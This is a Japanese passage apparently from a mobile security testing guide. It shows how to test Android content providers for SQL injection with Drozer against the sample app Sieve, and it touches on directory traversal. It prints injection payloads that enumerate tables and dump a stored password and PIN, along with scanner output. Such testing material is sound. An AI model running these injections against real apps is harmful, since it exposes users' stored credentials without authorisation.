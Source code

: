 ##### コンテンツプロバイダでのSQLインジェクション

Android プラットフォームはユーザーデータの格納に SQLite データベースの使用を勧めます。これらのデータベースは SQL を使用するため、SQL インジェクションに脆弱となる可能性があります。Drozer モジュール `app.provider.query` を使用して、SQL インジェクションのテストできます。コンテンツプロバイダに渡される projection と selection フィールドを操作します。

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'"
unrecognized token: "' FROM Passwords" (code 1): , while compiling: SELECT ' FROM Passwords

dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'"
unrecognized token: "')" (code 1): , while compiling: SELECT * FROM Passwords WHERE (')
```

SQL インジェクションの脆弱性がある場合、アプリケーションは詳細なエラーメッセージを返します。Android の SQL インジェクションを悪用して、脆弱なコンテンツプロバイダのデータを変更または照会できます。以下の例では、Drozer モジュール `app.provider.query` を使用して、データベースのすべてのテーブルをリストします。

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "*
FROM SQLITE_MASTER WHERE type='table';--"
| type  | name             | tbl_name         | rootpage | sql              |
| table | android_metadata | android_metadata | 3        | CREATE TABLE ... |
| table | Passwords        | Passwords        | 4        | CREATE TABLE ... |
| table | Key              | Key              | 5        | CREATE TABLE ... |
```

SQL インジェクションを悪用して、保護されていないテーブルからデータを取得することもできます。

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--"
| Password | pin |
| thisismypassword | 9876 |
```

これらのステップを自動化するには `scanner.provider.injection` モジュールを使用できます。アプリ内の脆弱なコンテンツプロバイダを自動的に見つけます。

```
dz> run scanner.provider.injection -a com.mwr.example.sieve
Scanning com.mwr.example.sieve...
Injection in Projection:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
Injection in Selection:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
```

##### ファイルシステムベースのコンテンツプロバイダ

コンテンツプロバイダは基礎となるファイルシステムへのアクセスを提供できます。これによりアプリはファイルを共有できます。Android サンドボックスはそれを抑制してないでしょう。Drozer モジュール `app.provider.read` および `app.provider.download` を使用して、エクスポートされたファイルベースのコンテンツプロバイダからファイルを読み取りまたはダウンロードできます。これらのコンテンツプロバイダはディレクトリトラバーサルの脆弱性を受けやすく、ターゲットアプリケーションのサンドボックス内の保護されていないファイルを読み取ることが可能となります。
